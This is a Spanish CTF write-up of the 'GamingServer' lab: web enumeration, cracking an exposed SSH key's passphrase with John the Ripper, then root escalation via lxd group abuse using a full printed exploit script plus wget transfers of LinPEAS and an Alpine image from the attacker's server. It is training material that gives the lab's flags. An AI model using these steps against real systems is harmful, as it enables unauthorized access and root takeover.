# Write-up GamingServer

## Reconocimiento

### Escaneo con Nmap

En el escaneo inicial se identifican dos servicios expuestos:

- `22/tcp` SSH
- `80/tcp` HTTP Apache 2.4.29 sobre Ubuntu



### Enumeración web con Gobuster

Al enumerar directorios en el servicio web aparecen dos rutas interesantes:

- `/uploads/`
- `/secret/`



Dentro de `/uploads/` se encuentra el archivo `dict.lst`, que parece ser un diccionario de contraseñas.

En `/secret/` aparece una clave RSA llamada `secretKey`, probablemente pensada para una conexión SSH.




Si se inspecciona la página principal de la IP, se accede a una web llamada `Draagan`. Revisando el código fuente con las herramientas del navegador aparece un comentario que menciona al usuario `john`.



Con esto tenemos tres piezas importantes:

- Un posible usuario: `john`
- Una clave privada SSH: `secretKey`
- Un diccionario de contraseñas: `dict.lst`

## Explotación

### Descarga de archivos

Descargamos los archivos encontrados en la web:

```bash
wget http://IP/uploads/dict.lst
wget http://IP/secret/secretKey
```

Después, ajustamos los permisos de la clave privada:

```bash
chmod 600 secretKey
```

### Crackeo de la clave SSH

Para intentar obtener la passphrase de la clave, primero la convertimos a un formato compatible con John the Ripper:

```bash
ssh2john secretKey > keyhash
```



Usamos el diccionario descargado desde `/uploads/`:

```bash
john keyhash -w=dict.lst
```

John consigue recuperar la passphrase:

```text
letmein
```



### Conexión por SSH

Con la passphrase obtenida, nos conectamos como el usuario `john`:

```bash
ssh -i secretKey john@IP
```

Passphrase:

```text
letmein
```

La conexión se realiza correctamente.

Al listar el contenido del directorio del usuario encontramos la flag de `user`:

```text
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e
```

## Escalada de privilegios

### Enumeración local

Al ejecutar `id`, vemos que el usuario pertenece al grupo `lxd`.

Este grupo es interesante porque sus miembros pueden manipular contenedores LXD. Si se crea un contenedor privilegiado y se monta el sistema de archivos del host dentro de él, es posible acceder a archivos del sistema como `root`.

Para confirmar posibles vectores de escalada, se puede ejecutar LinPEAS.

Si no lo tenemos descargado:

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

En nuestra máquina abrimos un servidor HTTP:

```bash
python3 -m http.server PORT
```

Desde la máquina víctima descargamos LinPEAS:

```bash
wget http://IP-NUESTRA-MAQUINA:PORT/linpeas.sh
```

Le damos permisos de ejecución:

```bash
chmod +x linpeas.sh
```

Y lo ejecutamos:

```bash
./linpeas.sh
```



LinPEAS detecta varios CVE:

- CVE-2018-18955
- CVE-2021-3493
- CVE-2022-32250



### Preparación de la imagen Alpine

Tras buscar exploits relacionados con LXD, encontramos una referencia útil:

```text
https://www.exploit-db.com/exploits/46978
```

En la máquina atacante descargamos el builder de Alpine:

```bash
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
```

Construimos la imagen:

```bash
sudo bash build-alpine
```

Esto genera un archivo con un nombre similar a:

```text
alpine-VERSION.tar.gz
```



Para trabajar con más comodidad, lo renombramos:

```bash
mv alpine-VERSION.tar.gz alpine.tar.gz
```

Después, abrimos un servidor HTTP en la máquina atacante para transferirlo:

```bash
python3 -m http.server 8000
```

Desde la máquina víctima descargamos el archivo:

```bash
wget http://IP-KALI:8000/alpine.tar.gz
```

### Abuso de LXD

Creamos un script llamado `exploit.sh` en la máquina víctima:

```bash
nano exploit.sh
```

Pegamos el siguiente contenido:

```bash
#!/usr/bin/env bash

# ----------------------------------
# Authors: Marcelo Vazquez (S4vitar)
#          Victor Lasa      (vowkin)
# ----------------------------------

# Step 1: Download build-alpine => wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine [Attacker Machine]
# Step 2: Build alpine => bash build-alpine (as root user) [Attacker Machine]
# Step 3: Run this script and you will get root [Victim Machine]
# Step 4: Once inside the container, navigate to /mnt/root to see all resources from the host machine

function helpPanel(){
  echo -e "\nUsage:"
  echo -e "\t[-f] Filename (.tar.gz alpine file)"
  echo -e "\t[-h] Show this help panel\n"
  exit 1
}

function createContainer(){
  lxc image import $filename --alias alpine && lxd init --auto
  echo -e "[*] Listing images...\n" && lxc image list
  lxc init alpine privesc -c security.privileged=true
  lxc config device add privesc giveMeRoot disk source=/ path=/mnt/root recursive=true
  lxc start privesc
  lxc exec privesc sh
  cleanup
}

function cleanup(){
  echo -en "\n[*] Removing container..."
  lxc stop privesc && lxc delete privesc && lxc image delete alpine
  echo " [OK]"
}

set -o nounset
set -o errexit

declare -i parameter_enable=0

while getopts ":f:h:" arg; do
  case $arg in
    f) filename=$OPTARG && let parameter_enable+=1;;
    h) helpPanel;;
  esac
done

if [ $parameter_enable -ne 1 ]; then
  helpPanel
else
  createContainer
fi
```

Le damos permisos de ejecución:

```bash
chmod +x exploit.sh
```

Ejecutamos el script indicando la imagen Alpine:

```bash
./exploit.sh -f alpine.tar.gz
```

El script crea un contenedor privilegiado y monta el sistema de archivos del host en `/mnt/root`. Al entrar en el contenedor, ya podemos acceder a los archivos del sistema como `root`.



## Resultado

La flag de `root` se encuentra en:

```bash
cd /mnt/root/root
```

Flag:

```text
2e337b8c9f3aff0c2b3e8d4e6a7c88fc
```
